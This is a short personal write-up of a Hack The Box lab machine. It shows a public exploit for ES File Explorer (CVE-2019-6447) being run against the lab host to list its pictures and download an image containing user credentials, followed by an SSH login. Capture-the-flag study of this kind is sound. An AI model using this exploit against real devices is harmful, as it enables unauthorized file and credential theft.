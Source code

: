 # Getting initial shell as u0_a76-kristi
## Discovered ES File Explorer running on port 59777
Discovered ES File Explorer running on port 59777[[Explore/10 - Common Enumeration]].
## Found exploit related to ES File Explorer
Found exploit related to ES File Explorer on [Exploit-db](https://www.exploit-db.com/exploits/50070)
## Getting list of all Pictures on explore machine via exploit
```bash
~/Dropbox/Documents/htb/boxes/explore ❯ python3 exploit.py listPics 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)

~/Dropbox/Documents/htb/boxes/explore ❯
```
![[Pasted image 20210919180253.png]]
## Extracting Image file containing credentials for u0_a76/kristi user and opening the image to see credentials
```bash
~/Dropbox/Documents/htb/boxes/explore ❯ python3 exploit.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
~/Dropbox/Documents/htb/boxes/explore ❯ ls
commands.txt  exploit.py  linpeas.sh  nmap  out.dat
```
![[Pasted image 20210919180500.png]]
## SSH  logging in as u0_a76-kristi
![[Pasted image 20210919180749.png]]






